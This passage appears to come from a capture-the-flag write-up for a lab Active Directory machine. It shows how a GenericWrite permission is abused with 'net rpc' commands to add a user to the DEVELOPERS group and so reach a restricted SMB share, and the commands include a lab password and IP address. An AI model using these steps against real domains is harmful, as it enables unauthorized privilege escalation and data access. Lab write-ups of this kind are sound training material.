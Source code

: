 <figure><img src="../../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

### Add user to other group with "GenericWrite" priv

Exploit this misconfiguration trying add the user `levis.james` to `developers` group.

{% code overflow="wrap" %}
```bash
net rpc group addmem "DEVELOPERS" levi.james -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.10.11.70
```
{% endcode %}

Now check if the previuos command worked, viewing all the member of the group

{% code overflow="wrap" %}
```bash
net rpc group members "DEVELOPERS" -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.10.11.70
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

### SMB shares with new group permission

Now that we are in the `Developers` group we can view the content of `DEV` share in SMB shares.

<figure><img src="../../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>
